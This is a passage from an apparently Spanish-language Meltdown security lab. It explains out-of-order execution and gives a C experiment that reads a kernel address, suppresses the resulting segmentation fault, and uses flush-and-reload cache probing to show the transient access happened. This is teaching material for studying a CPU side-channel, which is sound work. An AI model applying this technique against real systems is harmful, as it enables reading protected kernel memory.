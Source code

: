 En esta tarea, usaremos un experimento para observar este efecto causado por la ejecución fuera de orden. El código para este experimento es mostrado a continuación. 
La Línea  causará una excepción y esto hará que la Línea  no sea ejecutada. Sin em bargo, dada la ejecución fuera de orden, sabemos que la Línea  será ejecutada por el CPU pero el resultado será eventualmente descartado, pero dado que la ejecución cachea sus efectos en el CPU se guardará \texttt{array[7 * 4096 + DELTA]}. 
Para poder observar este efecto usaremos el código side-channel que hemos implementado en las Tareas 1 y 2.
Por favor descargue el código desde el sitio oficial del laboratorio, ejecútelo y describa sus observaciones, también agregue evidencia que demuestre que la Línea está siendo ejecutada. 


\begin{lstlisting}[caption=\texttt{MeltdownExperiment.c}, label=meltdown:list:outoforder]
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     (*@\ding{192}@*)
  array[7 * 4096 + DELTA] += 1;               (*@\ding{193}@*)
}


// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);

  // FLUSH the probing array
  flushSideChannel();

  if (sigsetjmp(jbuf, 1) == 0) {
      meltdown(0xfb61b000);                   (*@\ding{194}@*)
  }
  else {
      printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();                     
  return 0;
}
\end{lstlisting}

Cabe señalar que la dirección en la Línea   debe de ser reemplazada por la dirección que el módulo del kernel le devuelve en el buffer de mensajes del kernel. Compile y ejecute el código (Vea la Sección \ref{sidechannel:sec:compilation} para más instrucciones como compilar el código). Documente y explique sus observaciones.


